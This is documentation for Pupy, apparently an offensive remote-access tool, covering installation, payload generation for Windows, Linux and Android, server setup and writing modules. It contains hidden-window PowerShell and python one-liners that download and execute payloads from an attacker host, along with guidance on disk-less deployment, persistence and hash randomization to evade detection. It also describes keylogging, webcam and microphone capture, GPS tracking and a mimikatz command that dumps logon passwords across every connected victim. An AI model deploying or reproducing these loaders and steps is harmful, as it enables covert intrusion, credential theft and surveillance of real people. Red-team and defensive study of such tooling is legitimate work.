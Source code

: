 **********************************************************
Trusts
**********************************************************


Pupy is an opensource multiplatform Remote Administration Tool.
Pupy can be built to a classic executable, an apk, a pure python file (that can be loaded remotely from a python one-liner), a reflective DLL ... Some of these methods does not leave any trace on disk.
Pupy can load the python interpreter from memory and load any python module remotely from memory (.py, .pyc, .pyd).
You can then access objects on the client side from the serverside transparently with the awesome rpyc library.
Pupy can be used for various purposes :

* security research
* education
* pentesting
* administration
* projects and developments around privacy in python that require very low disk footprints
    ...


Installation
================





::

  git clone https://github.com/n1nj4sec/pupy.git pupy
 cd pupy
 git submodule init
 git submodule update
 pip install -r pupy/requirements.txt
 wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
 tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates

You may need to install impacket from https://www.coresecurity.com/corelabs-research/open-source-tools/impacket



Features
==========

 - Multi-platform (tested on windows xp, 7, 8, 10, kali linux, ubuntu, osx, android)
 - On windows, the Pupy payload can be compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
 - pupy can also be packed into a single .py file and run without any dependencies other that the python standard library on all OS
 - pycrypto gets replaced by pure python aes && rsa implementations when unavailable
 - Pupy can reflectively migrate into other processes
 - Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd, .so). The imported python modules do not touch the disk.
 - Pupy is easily extensible, modules are quite simple to write, sorted by os and category.
 - A lot of awesome modules are already implemented!
 - Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
 - We can also access remote objects interactively from the pupy shell and you even get auto-completion of remote attributes!
 - Communication transports are modular, stackable and awesome. You could exfiltrate data using HTTP over HTTP over AES over XOR. Or any combination of the available transports !
 - Pupy can communicate using obfsproxy [pluggable transports](https://www.torproject.org/docs/pluggable-transports.html.en)
 - All the non interactive modules can be dispatched to multiple hosts in one command
 - Commands and scripts running on remote hosts are interruptible
 - Auto-completion for commands and arguments
 - Custom config can be defined: command aliases, modules automatically run at connection, ...
 - Interactive python shells with auto-completion on the all in memory remote python interpreter can be opened
 - Interactive shells (cmd.exe, /bin/bash, ...) can be opened remotely. Remote shells on Unix & windows clients have a real tty with all keyboard signals working fine just like a ssh shell
 - Pupy can execute PE exe remotely and from memory (cf. ex with mimikatz)
 - Pupy can generate payloads in various formats : apk,lin_x86,lin_x64,so_x86,so_x64,exe_x86,exe_x64,dll_x86,dll_x64,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky
 - Pupy can be deployed in memory, from a single command line using pupygen.py's python or powershell one-liners.
 - "scriptlets" can be embeded in generated payloads to perform some tasks "offline" without needing network connectivity (ex: start keylogger, add persistence, execute custom python script, check_vm ...)
 - tons of other features, check out the implemented modules

Implemented Transports
====================

 All transports in pupy are stackable. This mean that by creating a custom transport conf (pupy/network/transport/<transport_name>/conf.py), you can make you pupy session looks like anything. For example you could stack HTTP over HTTP over base64 over HTTP over AES over obfs3 :o)

 - rsa
 	- A layer with authentication & encryption using RSA and AES256, often stacked with other layers
 - aes
 	- layer using a static AES256 key
 - ssl (the default one)
 	- TCP transport wrapped with SSL
 - ssl_rsa
 	- same as ssl but stacked with a rsa layer
 - http
 	- layer making the traffic look like HTTP traffic. HTTP is stacked with a rsa layer
 - obfs3
 	- [A protocol to keep a third party from telling what protocol is in use based on message contents](https://gitweb.torproject.org/pluggable-transports/obfsproxy.git/tree/doc/obfs3/obfs3-protocol-spec.txt)
 	- obfs3 is stacked with a rsa layer for a better security
 - scramblesuit
 	- [A Polymorphic Network Protocol to Circumvent Censorship](http://www.cs.kau.se/philwint/scramblesuit/)
 	- scramblesuit is stacked with a rsa layer for a better security
 - udp
 	- rsa layer but over UDP (could be buggy, it doesn't handle packet loss yet)
 - other
 	- Other layers doesn't really have any interest and are given for code examples : (dummy, base64, XOR, ...)

Implemented Launchers (not up to date, cf. ./pupygen.py -h)
==========================================================

 Launchers allow pupy to run custom actions before starting the reverse connection
 - connect
 	- Just connect back
 - bind
 	- Bind payload instead of reverse
 - auto_proxy
 	- Retrieve a list of possible SOCKS/HTTP proxies and try each one of them. Proxy retrieval methods are: registry, WPAD requests, gnome settings, HTTP_PROXY env variable

Implemented Modules (not up to date)
=====================================

All platforms:
^^^^^^^^^^^^^^^^

 - command execution
 - download
 - upload
 - interactive python shell with auto-completion
 - interactive shell (cmd.exe, powershell.exe, /bin/sh, /bin/bash, ...)
 	- tty allocation is well supported on both windows and \*nix. Just looks like a ssh shell
 - shellcode exec
 - persistence
 - socks5 proxy
 - local and remote port forwarding
 - screenshot
 - keylogger
 - run the awesome credential gathering tool [LaZagne](https://github.com/AlessandroZ/LaZagne) from memory !
 - sniff tools, netcreds
 - process migration (windows & linux, not osx yet)
 - ...
 - a lot of other tools (upnp client, various recon/pivot tools using impacket remotely, ...)

Windows specific :
^^^^^^^^^^^^^^^^

 - migrate
   - inter process architecture injection also works (x86->x64 and x64->x86)
 - in memory execution of PE exe both x86 and x64!
 	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
 - webcam snapshot
 - microphone recorder
 - mouselogger:
 	- takes small screenshots around the mouse at each click and send them back to the server
 - token manipulation
 - getsystem
 - creddump
 - tons of useful powershell scripts
 - ...


Android specific
^^^^^^^^^^^^^^^^^^^^


 - Text to speech for Android to say stuff out loud
 - webcam snapshots (front cam & back cam)
 - GPS tracker !


Build payloads from sources
===========================

Windows EXE/Reflective DLL
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Cross-compile with WINE && VCPP

::

  cd client/sources
  ./buildenv.sh
  ./build.sh

you can also add the flag DEBUG=1 if you want the generated pupy exe to open a console and print debug tracebacks


Android APK
^^^^^^^^^^^^


pupy apk for Android is packaged with kivy and buildozer.


Step 1

follow the instructions from https://kivy.org/docs/guide/packaging-android.html to install buildozer and kivy
On Kali 2.0 I used:

::

  apt-get install python-kivy zlib1g-dev cython
  pip install buildozer

Step 2

::

  cd client/android_sources
  ./build.sh



Generate payloads
=====================

The "client" here refers to pupy's payload running on the victim, and the "server" here refers to the pupy's payload running on the attacker, independently of who initiate the connection (bind or reverse shell).

All available launchers, transports and scriptlets can be seen using the command :

::

  $ python pupygen.py -l


Launchers
^^^^^^^^^^^^

Pupy launchers is an abstraction layer to change the behavior of pupy clients before the connection starts. You can list available launchers with the command :

::

  $ python pupygen.py -h

The connect launcher doesn't do anything special before "client" connecting to the "server" using the configured transport. The bind launcher works like the connect launcher but the "server" needs to connect on the "client". The auto_proxy launcher will try to connect directly to the server, but if it fails, it will try to find the proxy configuration by various methods depending on the OS and attempt to connect using each potential proxy found.



Transport Types
^^^^^^^^^^^^^^

The transport define what protocol pupy will use to exfiltrate. Transports are usually customizable through the launcher options. The default transport used is ssl if none is supplied. Note that Pupy is compatible with obfsproxy's awesome transports like obfs3 or scramblesuit.


Generate Binaries
^^^^^^^^^^^^^^^^^^

payload.py (generated with ./pupygen.py -f py) can be run on windows, linux and osx directly. All dependencies and chosen scriptlets are embedded. However some functionalities won't work on windows like the process migration which needs the compiled binaries.



On Windows
""""""""""""

To generate binaries on windows you can use the precompiled binaries templates :

::

  $ usage: pupygen.py [-h]
                  [-f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}]
                  [-O {android,windows,linux}] [-A {x86,x64}] [-S] [-o OUTPUT]
                  [-D OUTPUT_DIR] [-s SCRIPTLET] [-l] [-E] [--no-use-proxy]
                  [--randomize-hash]
                  [--oneliner-listen-port ONELINER_LISTEN_PORT]
                  [--debug-scriptlets] [--debug] [--workdir WORKDIR]
                  [{bind,auto_proxy,dnscnc,connect}] ...

 ### Generate payloads for Windows, Linux, OSX and Android.

 positional arguments:
  {bind,auto_proxy,dnscnc,connect}
                        Choose a launcher. Launchers make payloads behave
                        differently at startup.
  launcher_args         launcher options

 optional arguments:
  -h, --help            show this help message and exit
  -f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}, --format {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}
                        (default: client)
  -O {android,windows,linux}, --os {android,windows,linux}
                        Target OS (default: windows)
  -A {x86,x64}, --arch {x86,x64}
                        Target arch (default: x86)
  -S, --shared          Create shared object
  -o OUTPUT, --output OUTPUT
                        output path
  -D OUTPUT_DIR, --output-dir OUTPUT_DIR
                        output folder
  -s SCRIPTLET, --scriptlet SCRIPTLET
                        offline python scriptlets to execute before starting
                        the connection. Multiple scriptlets can be privided.
  -l, --list            list available formats, transports, scriptlets and
                        options
  -E, --prefer-external
                        In case of autodetection prefer external IP
  --no-use-proxy        Don't use the target's proxy configuration even if it
                        is used by target (for ps1_oneliner only for now)
  --randomize-hash      add a random string in the exe to make it's hash
                        unknown
  --oneliner-listen-port ONELINER_LISTEN_PORT
                        Port used by oneliner listeners ps1,py (default: 8080)
  --debug-scriptlets    don't catch scriptlets exceptions on the client for
                        debug purposes
  --debug               build with the debug template (the payload open a
                        console)  --workdir WORKDIR     Set Workdir (Default = current workdir)


::

  $ ./pupygen.py connect --host 192.168.2.131:443
 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupyx86.exe
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []


Another option is to use the powershell oneliner format to deploy pupy from memory using powershell :

::

  $ ./pupygen.py -f ps1_oneliner connect --host 192.168.0.1:443 --transport http
 [+] copy/paste this one-line loader to deploy pupy without writing on the disk :
  ---
 powershell.exe -w hidden -c "iex(New-Object System.Net.WebClient).DownloadString('http://192.168.0.1:8080/p')"
  ---
 [+] Started http server on 0.0.0.0:8080
 [+] waiting for a connection ...


pupygen.py can embed offline scriptlets with the exe/dll you generate. These scripts will be executed before connecting back and can be used to add some offline capabilities like adding persistence through registry, checking for sandboxed environment, ... etc




On Android
"""""""""""

::

  $ ./pupygen.py -O android connect --host 192.168.2.131:443
 [+] packaging the apk ... (can take a 10-20 seconds)
 ...
 jar signed.

 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy.apk
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []



On Linux & OSX
"""""""""""""

There is multiple options. The first one is generate a pure python payload and the victim needs to have installed python:

::

  $ ./pupygen.py -f py connect --transport ssl --host 192.168.1.1
 [+] generating payload ...
 embedding /usr/local/lib/python2.7/dist-packages/rpyc ...
 embedding /opt/pupy/pupy/network ...
 [+] payload successfully generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupy_packed.py
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--transport', 'ssl', '--host', '192.168.1.1']
 SCRIPTLETS = []


Once the script executed on the linux/OSX host, you should have a pupy session. All non-standard dependencies are packaged inside the payload and loaded from memory.

 The same thing can be loaded remotely from a single line by using the py_oneliner format. This method has the advantage of not leaving any trace on the disk and can be deployed easily from a ssh shell using ssh tunnels

 ::

   $ ./pupygen.py -f py_oneliner connect --transport ssl --host 192.168.1.1

then execute follow the instructions. Your python one-liner should looks like :

::

  python -c 'import urllib;exec urllib.urlopen("http://X.X.X.X:8080/index").read()'


For linux another option is to generate an ELF with

::

  ./pupygen.py -f client -O linux -A x64 -o linux (or ./pupygen.py -f client -O linux -A x64 -o linux connect --host 192.168.xxx.xxx:443 -t ssl)


The third option is use pyinstaller to package a linux/OSX payload to create a standalone binary. This method has the advantage to work even if there is no recent/compatible python version installed on the host. You may need the following hidden imports in your .spec file :


* rpyc
* pycrypto
* rsa
* pyasn1
* uuid
* pty
* tty


Setting up the server
=======================


Using docker
^^^^^^^^^^^^

::

  mkdir /tmp/pupy
 docker run -d --name pupy -p 2022:22 -p 8080:8080 -v /tmp/pupy:/projects alxchk/pupy:unstable
 mkdir -p /tmp/pupy/keys
 cat ~/.ssh/id_rsa.pub >/tmp/pupy/keys/authorized_keys
 ssh -p 2022 pupy@127.0.0.1


The server
^^^^^^^^^^^^

To start the server, you can simply start pupysh.py on the correct port with the correct transport

::

  ./pupysh.py -h
 usage: pupysh [-h] [--log-lvl {DEBUG,INFO,WARNING,ERROR}] [--version]
                  [--transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}]
                  [--port PORT]

 Pupy console

 optional arguments:
  -h, --help            show this help message and exit
  --log-lvl {DEBUG,INFO,WARNING,ERROR}, --lvl {DEBUG,INFO,WARNING,ERROR}
                        change log verbosity
  --version             print version and exit
  --transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}
                        change the transport ! :-)
  --port PORT, -p PORT  change the listening port



The shell
=========


Find commands and modules help
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by -h or --help

::

  sessions -h
 jobs -h
 run -h


This is even true for modules ! For example if you want to know how to use the pyexec module type :

::

  >> run pyexec -h
 usage: pyexec [-h] [--file <path>] [-c <code string>]

 execute python code on a remote system

 optional arguments:
 -h, --help            show this help message and exit
 --file <path>         execute code from .py file
 -c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'


Use the completion !
^^^^^^^^^^^^^^^^^^^^^^

Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB

::

  >> run
 getsystem           load_package        msgbox              ps                  shell_exec
 download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec
 exit                keylogger           migrate             port_scan           pyshell             socks5proxy
 get_info            linux_pers          mimikatz            portfwd             screenshot          upload
 getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap
 >> run load_package
 _sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3
 interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap
 linux_pers         portscan           pupwinutils        pupyutils          scapy


::

  >> run pyexec -
 --code   --file   --help   -c       -h
 >> run pyexec --file /
 /bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/
 /boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz
 /dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/



Escape your arguments
^^^^^^^^^^^^^^^^^^^^^^

Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.

::

  >> run shell_exec 'tasklist /V'

If you send a Windows path, you need to double the backquotes or put everything between quotes.

::

  >> run download 'C:\Windows\System32\cmd.exe'

Or

::

  >> run download C:\\Windows\\System32\\cmd.exe



Create Aliases
^^^^^^^^^^^^^^

Modules aliases can be defined in the pupy.conf file. If you define the following alias :

::

  shell=interactive_shell

running the command "shell" will be equivalent as running "run interactive_shell".

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:

::

  killme = pyexec -c 'import os;os.kill(os.getpid(),9)'



Jobs
^^^^

Jobs are commands running in the background. Some modules like socks5proxy or portfwd automatically start as jobs, but all modules can be run as jobs when used with the --bg argument.

::

  >> run --bg shell_exec 'tasklist /V'
 [%] job < shell_exec ['tasklist /V'] > started in background !


The --bg switch is typically used when you want to execute a long command/module and want the result later while having the shell still functioning.

The jobs output can be retrieved at any moment by using the jobs -p command. From the "jobs" command you can also list jobs status and kill jobs.


::

  >> jobs
 usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

 list or kill jobs

 optional arguments:
 -h, --help            show this help message and exit
 -k <job_id>, --kill <job_id>
 print the job current output before killing it
 -l, --list            list jobs
 -p <job_id>, --print-output <job_id>
						print a job output


Regular jobs can be set in Linux/Unix environments by running your pupysh.py script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.

::

  screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')



Handle multiple clients connected
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command

::

  run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit


To interact with one client, use the "sessions -i" command

::

  >> sessions -i 1
  ``` to interact with the session 1
  ```code
  sessions -i 'platform:Windows release:7'
  ``` to interact with all windows 7 only
  You can find all the available filtering parameters using the get_info module


Writing a module
====================


Writing a MsgBox module
^^^^^^^^^^^^^^^^^^^^^^

First of all write the function/class you want to import on the remote client
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py

::

  import ctypes
 import threading

 def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()


then, simply create a module to load our package and call the function remotely

::

  from pupylib.PupyModule import *

 __class_name__="MsgBoxPopup"

 @config(cat="troll", tags=["message","popup"])
 class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """
	dependencies=["pupwinutils.msgbox"]

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	def run(self, args):
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")



and that's it, we have a fully functional module :) This module is only compatible with windows, you can check the same module in the project to see how it's implemented to manage multi-os compatibility.

::

  >> run msgbox -h
 usage: msgbox [-h] [--title TITLE] text

 Pop up a custom message box

 positional arguments:
  text           text to print in the msgbox :)

  optional arguments:
    -h, --help     show this help message and exit
    --title TITLE  msgbox title
